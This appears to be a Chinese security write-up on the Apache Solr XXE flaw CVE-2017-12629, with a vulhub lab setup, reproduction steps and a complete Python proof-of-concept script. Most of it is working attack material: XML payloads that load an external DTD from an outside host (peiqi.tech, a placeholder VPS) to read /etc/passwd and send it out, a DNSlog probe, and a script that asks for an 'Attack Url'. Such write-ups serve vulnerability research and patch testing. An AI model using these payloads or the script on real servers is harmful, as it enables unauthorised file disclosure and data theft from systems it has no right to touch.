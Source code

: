 # Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

```
Apache Solr < 7.1
Apache Lucene < 7.
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现

先请求url地址获取 core 内容

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores



![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090051449.png)



访问

```plain
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090051557.png)

查看dnslog得到请求

![3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090051396.png)在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```plain
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://peiqi.tech/1.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```

![4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090051367.png)

注意这里的payload进行了url编码,请求的文件为 http://peiqi.tech/1.dtd，有更多需求自行更改写入的xml文件

## 漏洞POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```

![image-20220210161443057](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101614685.png)